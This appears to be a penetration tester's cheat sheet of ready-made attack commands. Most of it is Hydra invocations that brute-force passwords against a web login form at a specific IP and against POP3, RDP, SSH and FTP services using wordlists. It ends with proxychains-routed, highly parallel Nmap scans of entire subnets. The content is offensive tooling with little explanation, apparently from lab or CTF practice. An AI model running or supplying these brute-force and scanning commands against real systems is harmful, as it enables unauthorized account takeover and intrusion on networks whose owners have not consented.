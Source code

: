 # hydra web login bruteforce on port 8000 -method 2 - https://www.geeksforgeeks.org/automated-brute-forcing-web-based-login/
hydra -I 10.10.29.86 -s 8000 http-form-post "/vbcms/login:username=^USER^&password=^PASS^:Invalid Username or Password" -L /home/kali/Wordlists/top-usernames-shortlist.txt -P /home/kali/Wordlists/top-passwords-shortlist.txt -t 10 -w 30 -o hydra-http-post-attack.txt -t 64 -v -V -R

# hydra bruteforce a service on targets port 55007
hydra -l boris -P /home/kali/Wordlists/top-passwords-shortlist.txt  IP -s55007 pop3 -t 20 -v -V -R

# hydra bruteforcing rdp login 
hydra -L users.txt -P /home/kali/Wordlists/top-passwords-shortlist.txt  IP -s3389 rdp -t 20 -v -V -R

# hydra bruteforcing ssh login 
hydra -L users.txt -P /home/kali/Wordlists/top-passwords-shortlist.txt IP -s22 ssh -t 10 -v -V -R

# hydra bruteforcing ftp login 
hydra -L users.txt -P /home/kali/Wordlists/top-passwords-shortlist.txt IP -s21 ftp -t 20 -v -V -R


## Proxychains nmap xargs scanning 

# Traditional way of running proxychains with Nmap took 193.62 seconds. Bringing Xargs into the loop with a thread count of 50 dramatically improves the results and only took 9 seconds to complete. Example:
seq 1 1000 | xargs -P 50 -I{} proxychains3 nmap --top-ports 5000 {} -sTV -sC -Pn --open -n -T4 --min-parallelism 100 --min-rate 1 --oA proxychains_nmap --append-output <IP>

# If you want to run multiple ports or port ranges against multiple hosts you could use the following alternative:
seq 1 254 | xargs -P 50 -I{} proxychains3 nmap -p 80,443,3389,445,21,22 -sTV -sC -Pn --open -n -T4 --min-parallelism 100 --min-rate 1 --oA proxychains_nmap --append-output <HOSTS_IPS>{}
 
# If you want to run top ports scan against multiple hosts you could use the following alternative:
seq 1 254 | xargs -P 50 -I{} proxychains3 nmap --top-ports 1000 -sTV -sC -Pn --open -n -T4 --min-parallelism 100 --min-rate 1 --oA proxychains_nmap_fast --append-output <HOSTS_IPS> {}

# Then grep the output for open ports:
grep open/tcp proxychains_nmap
